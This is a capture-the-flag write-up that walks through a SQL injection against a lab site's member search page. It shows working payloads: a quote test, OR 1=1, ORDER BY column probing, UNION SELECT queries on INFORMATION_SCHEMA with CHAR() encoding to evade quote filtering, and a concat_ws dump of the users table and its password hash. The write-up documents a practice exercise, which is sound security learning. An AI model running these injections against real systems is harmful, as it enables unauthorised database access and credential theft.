 
in page : http://machineURL/?page=member 

you will find an input field to search for a member by ID

you can retrieve the member details by intering a number in the input field

one of the ways to detect SQL injection is to submit a quote
```
 ' 
``` 
submiting this quote will return this error 
```You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1 
```
with that output you can be cofident that this is a vulnerable payload
you can also try inputs like 
```OR 1=1 to retrive the whole list of membert
notice using this or we get a user named flag with surname GetThe
```

next, we want to retrieve all the tables, we can do that using this query :

```1 union SELECT null, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES
```

note: in order for union to succseed we need two conditions :

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

to check for how many columns the original query ruturns, you can test is using ORDER BY clauses and incrementing the specified column index until an error occurs like this :
```ORDER BY 1--
ORDER BY 2--
ORDER BY 3--
etc.
```

getting the output of all the talbles, notice a users table, thats our baby

we send another query to the database to get all the column names for the users table

```1 union SELECT null , COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = CHAR(0x75, 0x73, 0x65, 0x72, 0x73)
```

notice that we have encoded the users as CHAR(0x75, 0x73, 0x65, 0x72, 0x73)

that is because whenever we use some kind of quoted input we get a database error, that is propably due the the website implementing some security michanism

with that we get all the users coulmn names so we can construct a query to get all the data all the users

and we do that using this command : 
```1 union select null, concat_ws(CHAR(124),user_id, first_name, town, country, planet, Commentaire, countersign) from users
```
that gives us all the column values in the second column (surname) separated by | (char(124))

```5|Flag|42|42|42|Decrypt this password -> then lower all the char. Sh256 on it and it's good !|5ff9d0165b4f92b14994e5c685cdce28
```

you decrypt 5ff9d0165b4f92b14994e5c685cdce28 and you get FortyTwo
lowering all the letters and sh256 on it and we get the flag



